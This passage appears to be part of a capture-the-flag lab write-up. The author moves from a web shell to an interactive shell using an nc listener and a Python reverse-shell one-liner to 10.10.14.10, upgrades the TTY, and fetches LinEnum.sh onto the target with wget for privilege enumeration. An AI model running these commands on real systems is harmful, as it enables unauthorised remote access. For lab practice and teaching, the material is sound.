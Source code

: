 Clicked on the attachment and I'm redirected to my webshell !

![Webshell](/assets/imgs/bank/webshell.PNG)

I prefer get a reverse shell on my machine, start a nc listener :

```
nc -lvp 1234
```

On the webshell :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

TTY shell on my machine :

```
python -c "import pty;pty.spawn('/bin/bash')"
CTRL+Z
stty raw -echo
fg
```

Now let's do some enumeration thanks to LinEnum.sh :

```
python -m SimpleHTTPServer
```

Upload it to the server :

```
wget http://10.10.14.10:8000/LinEnum.sh
```
